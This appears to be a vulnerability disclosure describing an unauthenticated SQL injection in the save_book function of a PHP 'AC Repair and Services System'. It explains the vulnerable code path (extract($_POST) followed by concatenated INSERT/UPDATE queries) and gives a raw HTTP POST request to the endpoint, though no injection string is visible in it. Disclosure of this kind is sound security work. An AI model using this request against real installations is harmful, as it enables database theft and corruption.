


AC Repair and Services System using SQL injection vulnerabilities can be exploited by attackers to steal information or corrupt databases without authentication.


Source code address：https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html


The vulnerability is located in the /classes/Master.php file, navigate to save_book and look down to first extract($_POST) the parameters in the HTTP POST request into independent variables. Then directly see line 175 down if '$id' is empty, perform **INSERT** operation to insert a new record, if '$id' exists, perform **UPDATE** operation to update the record corresponding to the ID, the existence and SQL statement directly concatenate.



漏洞验证：

```
POST /php-acrss/classes/Master.php?f=save_book HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.80.152/php-acrss/?page=booking
Content-Length: 749
Content-Type: multipart/form-data; boundary=---------------------------327622971312812
Connection: keep-alive

-----------------------------327622971312812
Content-Disposition: form-data; name="id"


-----------------------------327622971312812
Content-Disposition: form-data; name="customer"


-----------------------------327622971312812
Content-Disposition: form-data; name="fullname"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="email"

admin@qq.com
-----------------------------327622971312812
Content-Disposition: form-data; name="contact"

11
-----------------------------327622971312812
Content-Disposition: form-data; name="address"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="services[]"

2
-----------------------------327622971312812--

```




